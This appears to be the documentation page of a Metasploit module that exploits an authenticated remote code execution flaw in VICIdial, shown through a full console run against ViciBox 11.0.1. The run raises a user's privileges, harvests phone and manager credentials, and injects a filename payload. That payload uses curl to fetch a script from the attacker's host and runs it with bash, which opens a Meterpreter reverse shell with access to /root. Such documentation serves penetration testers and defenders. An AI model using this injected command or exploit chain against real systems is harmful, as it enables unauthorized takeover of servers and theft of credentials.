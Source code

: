 1. Do: `run`
1. The module will exploit the Remote Code Execution

## Options

## Scenarios

### ViciBox 11.0.1

Using `cmd/linux/http/x64/meterpreter_reverse_tcp`:

```
msf exploit(unix/webapp/vicidial_agent_authenticated_rce) > run http://192.168.1.28 username=6666 password=password
[*] Exploit running as background job 12.
[*] Exploit completed, but no session was created.
msf exploit(unix/webapp/vicidial_agent_authenticated_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] VICIdial version: 2.14-705
[+] The target is vulnerable.
[*] Using URL: http://192.168.1.36:5000/piAF2DipO
[*] Server started.
[*] Payload is ready at /
[+] Authenticated successfully as user '6666'
[+] Updated user settings to increase privileges
[+] Updated system settings
[+] Created dummy campaign 'Haley-Huel'
[+] Updated dummy campaign settings
[+] Created dummy list 'Haley-Huel List' for campaign '898934'
[+] Found phone credentials: Extension=callin, Password=test, Recording Extension=8309
[+] Retrieved dynamic field names: MGR_login20240926, MGR_pass20240926
[+] Entered "manager" credentials to override shift enforcement
[+] Authenticated as agent using phone credentials
[+] Session Name: 1727385175_8300defaul11764031, Session ID: 8600051
[*] Generated malicious command: $(curl$IFS-k$IFS@192.168.1.36:5000$IFS-o$IFS.Vysha&&bash$IFS.Vysha)
[*] MonitorConf command sent for Channel Local/8309@default on 192.168.1.28
Filename: $(curl$IFS-k$IFS@192.168.1.36:5000$IFS-o$IFS.Vysha&&bash$IFS.Vysha)
RecorDing_ID: 10
 RECORDING WILL LAST UP TO 60 MINUTES

[+] Stopped malicious recording to prevent file size from growing
[*] Deleting dummy campaign with ID: 898934
[+] Campaign 898934 deleted successfully.
[*] Waiting for 300 seconds to allow the cron job to execute the payload...
[*] Received request at: / - Client Address: 192.168.1.28
[*] Sending response to 192.168.1.28 for /
[*] Sending stage (3045380 bytes) to 192.168.1.28
[*] Meterpreter session 18 opened (192.168.1.36:4444 -> 192.168.1.28:26572) at 2024-09-27 01:14:12 +0200

msf exploit(unix/webapp/vicidial_agent_authenticated_rce) > sessions 18
[*] Starting interaction with 18...

meterpreter > pwd
/var/spool/asterisk/monitor
meterpreter > ls
No entries exist in /var/spool/asterisk/monitor
meterpreter > ls /root/
Listing: /root/
===============

```